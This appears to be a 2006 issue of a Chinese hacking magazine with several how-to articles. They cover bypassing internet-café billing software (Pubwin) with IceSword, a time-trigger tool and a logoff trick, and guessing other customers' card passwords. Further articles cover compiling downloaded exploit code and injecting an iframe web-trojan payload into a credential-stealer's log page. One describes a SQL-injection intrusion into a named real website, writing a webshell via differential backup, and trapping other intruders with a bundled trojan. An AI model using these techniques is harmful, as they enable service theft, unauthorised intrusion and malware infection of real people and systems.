编辑点评：曾几何时，有位读者朋友让我写篇关于批处理的文章，由于我比较忙，一直没能达成他的心愿，这件事一直压在我心上。这次星陨石碎给我们写了一篇用批处理快速破解Pubwin的文章，让大家大开眼界。不过，作者在批处理程序中用的注释比较少，给初学者的阅读带来了一定的困难，所以我给大家找了一篇《批处理文件简介与编写》放在论坛上，大家在遇到困难时可以去参考一下。

## 冰刀在网吧中的妙用

- 从本文你可以学到：
- 冰刀（IceSword）在网吧的4个用途
- Pubwin的一种破解方法
- 如何在网吧防止木马

冰刀（IceSword）的强悍不用我说大家也知道，大家都把它应用在查找恶意DLL、rootkit级的后门上，而今天我要说的是IceSword在网吧中的应用。

### 一、找出客户端的路径

首先我们运行IceSword.exe，选择“进程模块”，不管网管把客户端程序隐藏得多深，在“进程模块”里一看便知道了，如图1所示。


### 二、找出客户端对应端口

运行IceSword后，我们在“端口模块”里，通过刚才找到的路径从而找到客户端相对应的端口。端口有什么用？当然是用防火墙之类的软件来阻止它与主机的通讯啊！


### 三、防止恶意程序运行

现在许多菜鸟朋友也知道在网吧上网的时候安装一个防火墙来保护自己，该方法在绝大多数情况下能有效保护不被他人用溢出攻击得手，从而使木马变成空话。但如果机器上本来就有，也就是说一些网吧黑客通过破解网吧还原卡或还原程序早已种上木马了，我们又该如何？很简单，至少我们先用IceSword把自己认为可疑的程序全部终止，然后通过禁止进线程的创建来防止再有其他的程序运行即可，如图3所示。

有的朋友会问，那这样不是连其他正常程序也无法运行了？是的，比如你上个厕所什么的，就不怕别人利用你不在的时间搞破坏了。你还可以用其他的软件来隐藏IceSword在托盘上的图标，这样更加隐蔽哦（你可以通过Ctrl+Alt+S将IceSword主界面唤出）。

### 四、其他人肉测试

这是一个偶然的发现。一次在网吧上网，卡里没有钱了，但是我没有注意到，于是客户端就自动锁定。不知为什么，客户端程序关闭了所有我打开的程序，就是没有关闭IceSword。既然没有关闭，那就可以继续上网哦（该测试在Pubwin网吧管理程序下通过，不表示一定能够通用，有的网吧管理辅助程序能自动结束IceSword.exe）。

> （本文提到的软件冰刀在光盘中有提供。）


> 辅助文章：  
> 《只卖变速齿，不载真情剑》作者：住址小行&绵柔醉鸟，06年01月，F9，第69页

编辑点评：“冰刀”以其强大的功能赢得了大家的广泛赞誉，却很少有人想到把它用在网吧的破解上。不过美中不足的是，我们在使用“冰刀”之前，必须得破解网吧管理系统来取得下载权限。方法虽好，但是如果网吧限制比较严的话，实践起来也比较麻烦。

## 闪光宝盒之时间溯流

从本文你可以学到：

- 利用“机时小偷”突破网管程序实现免费上网

最近悟空去上网，由于他老婆“芝芝”（蜘蛛精）怕他有外遇，一直控制着他的钱财，所以悟空兜里已经基本上没钱了。没钱了，想去他师傅那里借钱，可是他又爱面子，不愿去借。当他在网吧里快没钱的时候，突然想起一款使他非常震惊的工具，那就是“机时小偷5.0版”的免费上网工具。下面我就给大家讲解一下吧。其实也很简单，正确安装软件后，运行“Terminate.exe”，启动软件后，程序自动将时间设置为启动软件时的时间，如图1所示。现在你就可以用上下箭头调节时间了，把时间调到你想要运行窗口的时间，然后在下面的功能选择框里选择一个功能。


**运行窗口**：运行一个窗口（突破网管软件限制），此项默认为选中，是这个软件的主要功能之一。  
**暴力破解**：如果在默认模式下无法实现上面所介绍的流程，典型的问题是选择“运行窗口”后出现的窗口会一闪而过。  
**隐藏界面**：此项是将当前软件的界面隐藏掉。  
**终结程序**：使指定程序彻底崩溃。它不同于简单结束程序的进程，可用于一些顽固软件（结束进程后又会自动运行），最典型的就是网管软件。  
**隐藏窗口**：将一个活动窗口隐藏，但被隐藏的窗口依然正常运行。友情提醒：弹出一个信息框，提示你下机，可以在“提示下机内容”里设置提示的内容，比如提示悟空：“悟空，你该回家了！”  
**打开文件**：打开所指定的文件。注意，该文件必须是Windows已经指定打开方式；  
**强行关机**：强行关闭计算机。

> 以上所有功能均在你所设置的时间到达后实现。这点非常重要！如果你设置的时间总是比当前时间还早，就会出现一个提示，如图2所示。

2、“将此软件用于破解网管软件时，在设置客户端后，结束程序隐藏，否则将会导致网管软件崩溃。设置客户端后，点击确定，就完成设置了。

3、启动监控进程后，就可以随你的电脑向网管软件发起‘终结进程’。使用具体参见本软件的帮助文档或向我请教了吧！”

不过在网吧有一点是肯定的，那就是结账下机了。当你结账下机后，你要守着你的电脑，不要让它重新启动或关机。如果设置正确的话，少时钟达到你所预定的时间点，在锁定的屏幕中央就会跳出一个窗口，如图3所示。


当然，有的网吧里，到了时间后，机器会自动重新启动的，没办法，人家就是这个样子啊！不过你也不用发愁，通过“机时小偷”我们一样可以搞定啊！遇到网管软件在结账下机后会马上重新启动的情况时，你就用冻结程序的办法来实现免费上网。大概过程就是，在你上网卡余额快用完的时候，运行“机时小偷”，设置一个较短的时间，并且选中“功能选择”中的“冻结程序”选项，然后将网管软件激活为当前窗口。这样，当网管软件被冻结后，你的目的就达到了。

遇到网管软件在结账下机后不重新启动的情况下，除了用上面的方法外，还可以用另一种更简单的方法实现免费上网。具体做法是：设置一个恰当时间，选中“运行窗口”，然后将“隐藏界面”或“暴力破解”选中，现在你就可以结账下机了。等到设置的时间一到，你就会看到锁定的电脑屏幕上出现了一个显示桌面图标的窗口，后面就是免费上网的时间了。

这款利器的介绍，相信定能让菜鸟们在网络的江湖中有所收获。现在的网吧管理真的很差，祝大家玩得愉快！最后，还要提醒大家，悠着点，不要把时间搞得太久，那样会引起网吧管理员的注意！

> 编辑点评：“机时小偷5.0”这款软件出来也有半年多了，应该算不上是什么新东西了。不过我平常去网吧的时候很少看见有用这个软件来突破管理程序的，所以借这个机会让月夜我行推荐给大家。但是，利用这款软件必须要注意的一点是，千万不要在网吧人多的时候用，因为在老板的机器上显示的是这台电脑没有人用。

## 上网只花一元钱

## ——快速破解所有网管软件

- 从本文你可以学到：
- 如何巧妙利用注销快速结束网管进程
- 如何利用社会工程学免费上网

上次我发现利用Sleep或Power键可以让网管程序在后台运行，达到免费上网的目的，但并不是所有键盘都有这些键的。今天，我就告诉大家另外两种快速破解所有网管软件的方法，只需花上1元钱，你就可以无限上网哦。

以Pubwin为例，我们先到服务台开一张一元钱的临时卡，用临时卡登录以后，就可以开始我们的行动了。先找一个指向MS-DOS的程序运行，这里我选的是TC++3.0，因为这是一个正常的C语言编译软件，即使被网管看到我们在运行他也不会说什么，到网吧学习C语言也很正常嘛，这可比用其他黑软安全多了，如图1所示。


然后我们用WIN+D热键回到桌面。好了，大家注意，马上就要开始破解了。这时我们开始选择注销，确定后Windows就会进行注销操作。但不一会儿，就会提示我们所运行的那个DOS程序无法结束，如图2所示。这时选择取消，注销操作就中断了，再留意一下任务栏，Pubwin的图标是不是不见了啊！如图3所示。这样，我们就把Pubwin的进程彻底结束了。因为是用注销功能结束的进程，所以不管它有多少个守护进程都可以一起结束。因为网管软件的进程已经结束了，所以如果卡上的时间到了，服务端并不能对你的计算机进行操作，你也就可以一直上网下去，即使网管发现，只要你装傻，肯定也会被认为是机器问题。以上方法对XP绝对有效，2000有时候可能会注销成功。


除此之外，我们还可以利用社会工程学免费上网。同样还是去服务台开一张一元的临时卡，但不要用这张卡登录。我们假设卡号是310，而临时卡一般都是先给你一个卡号，密码任意，然后以你第一次输入的密码作为初始密码。很多人为了方便，就把密码设为与卡号相同或是像123这样的简单密码。这时我们只需用与310相近的卡号如309、308等登录，密码和卡号相同，怎么样，没试多少个就可以成功登录了吧！

> 编者点评：本文作者用TC++3.0来阻止Windows的注销操作，以达到杀死其他进程的目的，这种方法以前也见过。不过不是一定要TC++3.0才可以，其他的一些DOS软件也可以，比如UCOS等。不过我想装这些DOS软件的网吧应该不多吧？所以在学校机房用这个方法比较好，在网吧要用这个方法还是很麻烦的。

## nohack小技巧

## 改变驱动签名验证选项

在日常的教学过程中，经常发现学生有意无意地修改任务栏的属性，造成下次上机时任务栏、时间图标等信息不能正常显示。通过对注册表的修改可以让系统对所作修改不进行保存，当重新启动后，系统自动恢复到原来的设置。

```
开始→运行，键入 Regedit 后回车，打开注册表编辑器，依次展开：
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
在右侧窗口中单击鼠标右键，选择“新建→DWORD值”，新建一个名为 nosavesettings 的DWORD值，并将其值设置为1。
```

本期小编没有为大家准备具体的实例，但是却请来了经验丰富的朋友和大家谈谈代码调试的一些经验——《从代码到工具就这么简单》，也有好心的朋友给我们送来了《Mini版VB6+Delphi6 装进U盘随身带》，这可是作者花了很长时间才找到的，请大家不要错过。

## 从代码到工具就这么简单

dang0102

> 从本文你可以学到：
- 解决Exploit代码编译时的常见错误
- 对带命令行参数程序的调试方法

### 一、引子

这看似简单的题目，却经常在不经意间难住了不少新手朋友。原因大致有二：一是代码公布者从自身考虑，并未将完整的代码贴出来，或者故意将对的地方改错，导致我们拿到之后编译不通；二是编译环境的差异。本文中，我们就来解决从Exploit代码到成功生成工具这个过程中可能遇到的一些问题。因为实际的程序代码可能掩盖不完这些错误，因此我们着重介绍方法，并且限制在VC6编译环境之下。

### 二、初步了解错误情况

网上的Exploit代码分两种形式存在：一种是现成的.c或.cpp代码供我们下载，另一种是将代码直接放在网页中，我们复制后粘贴在自己创建的.c或.cpp文件中。

在生成.c或.cpp文件之后，我们马上进行编译，以初步了解错误的多少，如图1所示。第一次编译错误再多也不要着急，因为下面要逐一排除。

```
f:\攻防研究\攻击技术研究\投稿\nohack\2006\从代码到工具就这么简单
...
Error executing cl.exe.

test1.exe - 6 error(s), 2 warning(s)
```

图1 错误提示

### 三、代码完整性及类型问题

有时为了省事，代码公布者故意只给出主要代码，而完全没加include语句，这就是代码完整性问题。这种问题很好解决，一般把程序头尾仔细检查一遍就是了。更深一步，代码公布者甚至可能将MFC程序的主要代码放出来，我们有时却当作Console代码处理，大家要多注意。

### 四、C和C++造成的差异

如果我们将代码从网上复制下来自己生成文件的话，最好先保存为.cpp文件，看能否编译通，如果不能，再保存为.c文件试试。.c和.cpp有个显著的区别是：.c文件的变量必须在定义所有代码之前，否则编译阶段就报错，如图2所示。

```
C2143: syntax error: missing ';' before 'type'
C2065: 'size' : undeclared identifier
...
C2065: 'x9r' : undeclared identifier
```

图2 .c文件中变量定义位置引起的错误

### 五、头文件、库文件引用问题

有时我们调用函数，或者引用某些数据结构时，出现函数未定义的错误，如图3所示。

```
error C2065: 'MessageBox' : undeclared identifier
error C2065: 'MB_OK' : undeclared identifier
error C2065: 'TRUE' : undeclared identifier
```

图3 头文件引用错误

这种问题只需要用include引用定义这些函数或数据结构的头文件就可以了。

还有的情况下，我们引用了必要的头文件，但是没有引用相关的库文件，会出现如图4所示的错误提示。这种错误在我们引用网络函数的时候经常遇到，加上#pragma comment(lib,"ws2_32.lib")后即可解决。

```
error LNK2001: unresolved external symbol __imp__shutdown@8
error LNK2001: unresolved external symbol __imp__send@16
error LNK2001: unresolved external symbol __imp__connect@12
...
```

图4 库文件引用错误

### 六、指针类型问题

这里主要是指针类型匹配问题，经常发生在函数调用的参数中，如图5所示。

遇到这种问题，只需要加上错误提示中的前一种类型即可。例如在图5中，加上(struct sockaddr *)即可改正错误。


### 七、调试问题

最后就是调试问题了，当我们编译通过后，可能程序执行结果达不到我们的要求，这时就需要通过调试来解决逻辑问题。如果是带命令行参数的程序，则可以在“工程”→“设置”→“Debug”→“程序变量”中填入参数，如图6所示。

```
error C2664: 'connect' : cannot convert parameter 2 from 'struct sockaddr_in *' to ...
```

图6 添加命令行参数

此外，通过F10（step over）和F11（step into）进行单步调试，通过F9设置断点，通过F5将代码直接执行到断点。至于很多逻辑错误，那就要具体问题具体解决了。

### 总结

本文中，我们讨论了在将网上Exploit代码编译生成工具过程中遇到的一些问题，并给出了解决方法，希望对初学的朋友有所帮助。其实这些问题还是比较简单、基础的，关键在于细心。文中提到的代码问题可能有不完整的地方，还希望大家多多指正。


## Mini版 VB6 + Delphi6

## 爱猫U盘随身带

Icyleaf

- 从本文你可以得到：
- Mini版的 VB 和 Delphi 的简单介绍
- 作者精心收集的 Mini 版软件

本人在外地上学，喜欢编程，最喜欢 VB 和 Delphi！但寝室没有一台电脑，虽说学校有机房，VB 和 C 的编程软件都有，但就是没 Delphi！让我不爽了一个学期！放寒假期间，我在网上苦苦搜寻 Mini 版本，因为 Mini 版本可以装进 U 盘嘛，呵呵。谁知网上一搜，VB6 的 Mini 版很好找到，可是 Delphi7 的 Mini 版却很难找到。不过，正所谓“踏破铁鞋无觅处”，我最后还是幸运地找到了 Delphi6 的 Mini 版。今天和大家分享一下，我先从 VB Mini 讲起。

哈哈！感觉就是爽啊，以后再也不怕没 Delphi 的电脑了！当然，好东西不能自己独享，直接附上两个 Mini 版。至于想使用 Mini Delphi 2005 英文版的朋友，也不用急，打开 Delphi 盒子的主页（www.2ccc.com），这个网站是学习 DELPHI 的好地方，玩 DELPHI 的不可能不知道吧。首先注册一个用户（要不找不到下载地址），登录后搜索“Mini Delphi 2005 绿色 便携 快速安装”就可以找到下载地址了。

最后祝 NoHack 的大编程迷们在编程路上一旺再旺！（文章中介绍的 2 个 MINI 版软件 VB 和 Delphi 在光盘中有收录）

> 编辑点评：文章简单地介绍了两个 MINI 版本的 VB 和 Delphi 的功能和使用，短小精悍；同时也给广大程序迷们带来好礼，记得感谢作者的共享精神哦。

## 1. Visual Basic 6.0 SP6 简体中文版 Mini版

这只有一个安装文件，它是由中国 VB 编程迷精心制作的！（注意：请不要在已经安装有 VB6 的系统上安装，否则可能导致原来的 VB6 不可用！）

它可以编写“标准 EXE”“ActiveX EXE”“ActiveX DLL”“ActiveX 控件”，具有最基本的控件（如“Common Dialog Control 6.0”“Windows Common Controls 6.0”“Internet Control”），并且集成了最新 SP6 升级补丁，以及“类生成器”和“资源编辑器”。没有一点累赘，而且添加了“INI 文件操作”类模块和“注册表操作”类模块等，最令人惊讶的是它只有 6.39MB！如图 1 所示。

不过也缺少些东西，如没有“Winsock Control 6.0”控件和 API 函数声明查看器。毕竟是大众化的东西，不敢奢求太多，自己加上这几个文件也不会太多。最后还是感谢所有的 VBFANS！！（为了方便大家的使用，这里我已加入了以上缺少的东西，还加入了一个 VB 的 API 函数详细说明 CHM 文件，本人认为对于想学 API 的朋友非常有用！^_^）

图1 miniVB 的界面

## 2. Delphi 6.0 英文 Mini版

虽说 Delphi 已经进到 8.0（.NET）版了，但是现在用得最多的还是 7.0！但是我在网上寻找了很长时间，也就找到了 Delphi 6 英文 Mini 版和 Mini Delphi 2005 英文版。后者其实也是 .NET 核心，并且光一个压缩包就 54.2MB；前者和 7 版相似，用着习惯，并且压缩后只有 25.1MB。解压缩后先看 TXT 文件，它说的方法在我的机器上根本无法实现注册。我已经简化了注册方式，用两个 REG 文件就能搞定！（其实还是一个）安装完后直接导入 REG 文件就可以了，注意因系统不同而使用哦！

打开 Delphi，可都是英文哦，呵呵。对于 Delphi 我觉得还是英文最好！来看它的控件：最基本的和常用的共 7 个控件集，虽说减少了很多个，但毕竟能满足日常编程需要了！和 VB 的 Mini 版比起来功能可强多了！（某看官：毕竟多出来那么多 M 呢）话虽这么说，光帮助文件就占很大的空间了。常用的 uses 也都在，像 ShellAPI、WinSock、WinInet 等等。小试一下，如图 2 所示。

图2 Mini版 Delphi 6.0 的界面

许多被盗过号的朋友都对盗号者无比鄙视，前几期也刊登过反黑的文章，大多是拿下盗号者的邮箱或空间来发泄一下。这期 Rain 利用盗号软件中脚本程序的编写缺陷进行挂马，思路还不错；另外 elin 也为我们送上了因为自己的一次失误而差点导致一个门户网站沦陷渗透的反黑历程。幸好作者经验比较丰富，智斗众多入侵者，把自己从一个测试者转化成了一名反黑斗士，强烈的责任心使得作者的角色发生转变，为该网站默默做了一次无名的幕后清道夫……各位看官，还不赶快翻阅。

- 从本文你能学到：
- 监听网络通讯得到敏感信息
- 针对脚本编写失误进行挂马

## 一、起因

一日一个朋友跑来诉苦，郁闷啊，QQ 号被人偷了，密码保护的资料是随便填的，早忘记了。朋友有难，就过去看一下吧。

## 二、思路

朋友是在自己家里上网的，QQ 号码被盗基本上就只有一种可能了，那就是电脑里被人种了盗 QQ 号的木马。自然我们就得从“犯罪第一现场”入手了，因为盗号软件盗到 QQ 号以后一定会将 QQ 号码和密码发送给盗号者。我们可以通过木马来找到盗号者，常用的方法有两种：一是找到木马，然后用二进制编辑器查找木马中的邮箱等信息；还有一种就是通过嗅探木马的网络通讯来得到盗号者的信息。现在很多木马也意识到了这一点，所以很多木马中的邮箱等信息都经过加密。第一种方法的成功率不是很高，所以选择第二种方法。

## 三、查马

一般盗号木马的隐蔽性都不是很强，查找比较简单。打开“木马辅助查找器”查看一下有没有可疑的进程，结果真的发现了一个“system.exe”，在系统的“system32”目录下。这个名字听起来像是个系统文件，而在系统中是根本没有这个文件的。如图 1 所示。

然后我又把系统仔细地找了一下，没有再发现其他可疑程序。看来盗 QQ 号的木马就是那个“system.exe”了。

## 四、嗅探

确定了木马文件，本来应该杀掉木马，但我们的目的是找到盗号者，所以先不要急着杀掉木马，先进行嗅探。打开一款嗅探工具，我用的是“Winsock Expert”，这是一款可以针对某个程序进行抓包的工具。点击左上角的打开图标，就会打开选择监听进程的面板。如图 2 所示。

在这里我们选择要监听的木马进程“system.exe”。点击“打开”，程序就会开始监听“system.exe”的所有网络通讯了。由于木马在盗取 QQ 号以后才会进行网络通讯，为了尽快得到结果，我到腾讯的网站注册了个新的 QQ 号，然后用这个 QQ 号登录。这时“Winsock Expert”里有反应了，并抓到了木马通讯的数据，如图 3 所示。

在图 3 的报文中可以得到很多信息，最后一行就是 QQ 号码和密码发送的部分。数据是以 POST 方式发送到 www.XXXX.cn/tmdqq.asp 的。这个网站一定与作者有关系，不过我不想从网站入手，因为太麻烦。注意到了没有？接收密码的文件是“tmdqq.asp”，阿拉 QQ 大盗就是使用这个文件来接收密码的，当然其他木马也使用这个文件，像 QQ 签子等。

到网上找了一个 QQ 盗号程序，打开里面的 tmdqq.asp 看源代码，代码很简单。

```asp
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qq.txt"),8,True)
file.writeline num+"----"+"|--|--|"+pass
file.close
set file=nothing
set fs=nothing
response.write("Send OK!")
```

由此我们知道了木马将 QQ 号码和密码发送到这个 tmdqq.asp。然后 tmdqq.asp 使用 FSO 将得到的 QQ 号码和密码写入同目录下的 qq.txt 文件。而提交的变量名就是“num”和“pass”。

这么说如果盗号者没有更改这个 asp 文件的话，在那个地址上也可能会有一个“qq.txt”文件了。那就试一下，在浏览器里输入 www.XXXX.com/qq.txt，还真的打开了，里面有很多被盗来的 QQ 号！如图 4 所示。

图4 被盗的 QQ 号

看来这个盗号者的胃口还真不小。有多少人被害了啊，可不能让他逍遥法外。既然知道了他是怎样盗号的，那我们现在就开始反击！

## 五、反击

怎样反击呢？不知道你注意到“tmdqq.asp”的代码了没有，看这两句：

```asp
num=request("num")
pass=request("pass")
```

“num”和“pass”变量是直接用“request”获得，也就是说我们也可以通过“GET”方式来提交这两个变量。而到了写入 txt 部分的“file.writeline num+"----"+"|--|--|"+pass”变量，是没有经过任何处理就直接写进了 qq.txt。所以，在这里我们可以进行挂马！

因为浏览器在处理网页时有缺陷，文件扩展名对应的不是很严格。如果 txt 文件中包含 HTML 标记的话，这部分 HTML 标记还是会被浏览器执行的。

那我们就利用这点来下手，在盗号者查看盗取 QQ 号页面的 qq.txt 文件里面挂上网页木马，这样盗号者下次去查看 QQ 号码时就会中我们的木马！

那具体要怎么做呢？首先要选一个好的木马，然后把它做成网页木马。木马我选用的是 QQ 盗手，把丢的 QQ 再盗回来就行了；网页木马选用的是童童制作的 MS0601 网页木马生成器。制作很简单，先配置好 QQ 盗手，生成一个服务端，然后将这个服务端上传到我的一个服务器。大家没有的话可以去找免费空间来用。配置好木马后，再用记事本打开 MS0601 网页木马生成器的“制作.bat”文件，把里面的“【木马地址】”改成你上传的那个木马地址。然后运行“制作.bat”制作网页木马。

本来做好后打开 txt 文件夹下的“index.htm”，再更改“exploit.wmf”的地址，但现在我们不需要了，因为我们可以直接在 qq.txt 中插入这个地址。

接下来我们把生成的“exploit.wmf”也上传到我们准备好的空间，然后就来向 tmdqq.asp 提交数据了，利用“num”这一个变量就足够了。

打开浏览器，在地址栏里输入 tmdqq.asp 的地址和“num”的值，输入 `www.XXXX.cn/tmdqq.asp?num=<iframe src=你的空间地址/exploit.wmf width=0 height=0></iframe>`，然后回车提交，浏览器返回一个“Send OK!”就表示提交成功了。现在要做的就是等待了，等盗号者下次查看盗了多少 QQ 号的时候，他就在不知不觉中中了我们的网页木马了。其实提交的“num”的值就是一段挂马常用的 HTML 代码，它会以隐藏框架的形式将我们的木马插入。

## 六、结局

后来，朋友的邮箱里也收到了很多 QQ 号和密码，都是那个盗号者盗到号码后登录的记录，其中也有朋友的 QQ 号。号码失而复得，也算是件高兴的事情。

## 七、总结

有时候一些非常规的做法也能起到很好的效果，技术需要的是一种创新，黑客技术也一样，不仅仅是入侵。同样的方法，有时候也能成为保护自己有力的武器。

> 【QQ 盗手、木马辅助查找器、WSockExpert.rar，已经收录在光盘中】

> 【编辑提示】本文的亮点是利用 tmdqq.asp 没有对参数进行过滤来插入网页木马。如果盗号者通过浏览器来访问 qq.txt，那么其中的网页木马就会被解析，也就是说你的反盗窃就成功了。如果对方使用文本编辑器来打开 qq.txt，则不会成功，反而也暴露了网页木马。

| 问 | 答 |
|---|---|
| 提交的 URL 只提交了一个变量，为什么一个变量呢？ | 另一个变量的值为空，也不会写入 qq.txt，对结果没有影响。当然你也可以让“num”为空，提交“pass”，效果是一样的。 |
| 怎样才能防止被别人这样挂马呢？ | 首先要更改 tmdqq.asp 的代码，将里面的“qq.txt”名字更换，最好让其他人不知道该名字。其次在查看被盗号码时不要直接在 IE 中打开查看，可以先下载到本机再用记事本打开，这样插入的 HTML 标记就失去作用了。 |

## 为广东互联星空做一次渗透

elin

- 从本文你可以学到：
- 注入工具的综合应用
- 如何利用 SQL 数据库差异备份写入木马
- WebShell 提权的几种方法
- 追杀 ASP 木马的方法
- ASP 文件的解密
- 反黑侦察方法

## 一、源起

自从上次发现 XX 互联星空教育频道的漏洞以后，一直有将各地的互联星空检测一遍的想法。一个周末，闲暇下来，便打开我喜爱的音乐，操起家伙，开始了我的安全检测之旅。

## 二、发现注入点，得到有关信息

在检测到广东互联星空体育频道时，我那可爱的啊 D 注入工具突然跳出一个注入点提示：http://sports.gd.chinavnet.com/groupdetail.asp?gid=3，如图 1 所示。

接着进行注入检测，通过检测发现此网站用的是 SQL 数据库，当前库为 vnetsports，DB_OWNER 权限，并通过 SQL 猜解得到管理员的账号和密码（由于猜解得比较慢，所以改用了 NBSI 试了试，速度快多了，如图 2 所示）。

## 三、试图上传 WebShell

接着我打算把管理后台找出来，以使用得到的管理员账号进入后台，看后台是否有可以利用的地方。试用了后台查找功能探测，结果没有找到。难道就眼睁睁地拿着账号和密码进不去？后来试了试列目录功能，原来是有这权限的。终于在 D 盘里找到了 VnetSports 目录，一看目录名就知道是它了。进去一看，有 data、documents、manage、wwwroot 等目录。wwwroot 目录当然就是 Web 目录了，manage 目录是管理后台目录，documents 目录是文档目录，data 是数据目录，如图 3 所示。

看到这些目录结构真令人又欢喜又惊奇。可喜的是在 documents 目录还放了开发此系统的技术和管理使用说明文档，真是太诱人了，如果能弄到手真是学习此类编程的好机会，如图 4 所示。令我惊奇和不解的是管理后台怎么不在 Web 目录中，管理员是怎么访问维护的呢？经过一番思考，猜测管理目录应是作为另外一个独立的 Web 目录，但我猜了几次都未猜到它的访问地址。后来，在我成功突破以后，看到 documents 目录中的技术文档，才知道原来管理员是通过 http://sports.gd.chinavnet.com:88 登录维护的，如图 5 所示。用得到的管理员账号密码进入了管理后台，如图 6 所示，当然这些都是后话了。

当初我是怎么想的呢？我仅想着如何在网页中找问题了，连端口也未扫描一下，这是个教训，同时我也由衷佩服设计人员这个不错的做法。先前未想到这点，所以上传 WebShell 的想法被卡住了。

## 四、寻求帮助——过错的开端

正当我无法突破的时候，我想到了去 QQ 群里与大家讨论并请高手相助，可是没人理我。而我泄露出去的注入点令广东互联星空因此而危机四伏，这是我这次得到的最大教训。不能随便将此类信息讲给别人，引诱别人犯罪不是？要讲也不能讲得如此具体，只讲讲问题表象就行。到底酿成了什么错，后文我会提到。

图7 一句话木马客户端

## 五、成功突破——过错的认识

第二天，灵感突现，想到了利用 SQL 数据库差异备份的方法，终于成功上传了 ASP 木马，获得了 WebShell，步骤如下：

```text
1、create table [dbo].[elin_tmp] ([cmd] [image])
2、declare @a sysname,@s nvarchar(4000) ... backup database @a to disk = @s ...
3、insert into [elin_tmp]([cmd]) values(0x3c2566...)
4、declare @a sysname,@s nvarchar(4000) ... WITH DIFFERENTIAL,FORMAT ...
5、执行一句话木马客户端，填入 URL 地址 http://sports.gd.chinavnet.com/elin.asp ...
```

图8 获得 WebShell

然后我们就可以用它来上传一个功能较强大的木马了，我传了一个免杀的马，如图 9 所示。

在我用这个马在其硬盘中游走时，居然发现了好几个木马。同时我还看到了许多人正试图提权呢：有的在 C 盘根目录下写了 Autorun.ini，里面写入加超级用户的命令，等管理员浏览 C 盘时运行；有的修改了 Autoexec.bat；有的上传了 Serv-U 提权工具；有的传了 Windows 漏洞利用程序；有的修改了 Serv-U 的用户表文件；有的上传了远程控制木马的服务端，真是手法俱全，令人目不暇接。原来有许多人来过了，一定是刚才 QQ 群里的那些人吧。真是悔恨呀！当初如果不是我把那注入点泄露出来，可能也不会招来大家沙丁鱼似的攻击，我得想办法阻止他们！

图9 另外上传的 WebShell

## 六、我要反黑——过错的完结

为了表示我的歉疚，我决定阻止这场“战争”。我并非是和这些安全爱好者有意作对，而是有些人做得太过分。检测就检测吧，还有人在首页挂马，我一看到，就立即找到并删去了。我给大家一个查找 ASP 木马的方法：大家可以利用“恩易 ASP 木马追捕工具”，它是一个用来查找恶意 ASP 木马的程序。我把它上传到 WEB 目录中，用户依次查看各目录，很容易就找到一些可疑文件，再打开看看便知，如图10所示。


图10 查找其他 webshell

我说对木马一删了之，但一些人太过分，上午删，下午他又传，看来得要给他一些警告。如果不想做得太过分，要不在他的 WebShell 里添些警告的话语。对忍无可忍的家伙，一定要把他的底细探个一清二楚。我用上各种盗号木马、病毒程序、监控木马，结合网页木马生成器制作出一个超级大马来。然后修改他的 ASP 木马，加上 ID 记录、时间记录，并把我们为他特制的超级大马链上去。这里可能大家会碰到一个问题，就是他的 ASP 木马被加密了。我给大家提供一个工具：编码与反编码，将其反编码解密，然后就容易了。当然最好改好以后再加密一下，不然被杀了就不好了，如图11所示。


图11 解密找到的 webshell

当然，仅是把木马删去，还是不能根除隐患的，必须得把那个存在注入漏洞的地方修补好。防注入有一个比较简单的方法，就是“SQL 防注入系统”，大家可以去找找，用法很简单，在此不作叙述。

最后，我怀着愧疚的心情，通知了网站管理员，我只能做到这些了，应该把问题降到最低了。

## 七、若干思考

- 这样一个大站，出现如此低级的漏洞实属不该。我还发现该服务器上还放着其他频道的网页，各目录可随意跳转，如果一个被入侵，其他站也会遭到牵连。为了广大用户的利益，一定要加强安全系数，不然影响可不小啊。
- 在网上发布信息一定要三思而后行，不得随意。对于自己的所作所为，应有责任，一定要清楚。
- 做人要厚道，黑亦有道，强烈鄙视那些不守黑客守则的非道德黑客。

> 【文中所涉及到的恩易 ASP 木马追捕、ASP 源代码加密解密工具包、一句话木马连接客户端，已经收录在光盘中】

编辑点评：这种网站被简单地搞定，我狂汗\~\~\~注入过程没有什么亮点，原本想删除许多图片的，但考虑到初学者，这是一篇很好的实例教程。注入过程清楚明了，反黑也不会糊涂。

## nohack小攻防实录

有的时候 SQL 注入被屏蔽了错误显示，这个时候如果你已经知道一个表的结构（如用户资料表的结构），你就可以尝试将 SQL 注入的内容 update 到我们知道的表的某个字段（如邮箱），然后查看自己的邮箱地址就知道内容了！

在 Access 等注入的时候，如果表结构都出来了，但是字段很难猜，如有个中文字的话，工具都很难猜了。这个时候我们用 Union 查询就可以很快地将需要的内容在注入点 Union 查询出来，工具和手工结合是很快的哦！

如果有的时候 Google Hacking 的信息很有限，很有可能是对方限制了 Robots 的访问。这个时候可以上根目录访问 /robots.txt，有意想不到的收获哦！不信去看看 http://www.baidu.com/robots.txt。

## 嘿，这小子真坏！

今天在《黑客手册》官方论坛“650M时空”看到了个帖子，是说关于光盘软件中“QQ超大汉字发送器+QQ头像永远在线器 V5.29”有人捆绑木马的事。一般的软件都经过严格的审核才放到光盘里面的，莫非他强到能躲过超级杀毒软件的慧眼？


当时使用的查杀软件确实是当时的最新版本，不过由于这个木马是当时新鲜出炉，杀毒厂商还没来得及收录进库，所以它侥幸逃过了追杀。后来经咨询并复查，现有几乎所有杀毒软件版本都能查杀了。

我们来分析。首先，打开这个软件的安装文件，用“无忧捆绑文件探测器 V0.2 汉化版”查下是否捆有东西，一扫描就发现寄生数据。再运行下去时，防火墙出现网络访问提示。


根据提示可知，一个名为“hyline.exe”的程序请求连接网络。先不要点允许，打开抓包工具 Winsock Expert，选择将要运行且连接网络的程序，截取数据后发现可疑 URL。


很明显这不是病毒，它只是用于打开一个流量计数脚本；若打开的是网马下载页就麻烦了。文末还提到可用“EXE广告注入器2006”实现自动弹出页面。

> 【文中所涉及到的 EXE广告注入器2006、无忧捆绑文件探测器、Winsock Expert，已经收录在光盘中】

```html
<script language="JavaScript">
window.open('http://mlink.counter.dudu.com:8080/audit?...')
</script>
```

> 编辑点评：作者介绍的方法值得借鉴。检测文件是否被捆绑可结合 MD5 差异判断；访问网络程序可通过抓包获取敏感数据；查看网页代码常可发现有用信息，若页面加密可先保存后分析。

你有仔细分析过 FTP 服务器如何配置才比较安全吗？你有用 WebShell 为自己提供管理的方便吗？呵呵~~是不是迫不及待地想知道？那就马上开始这期的 office38 之旅吧！

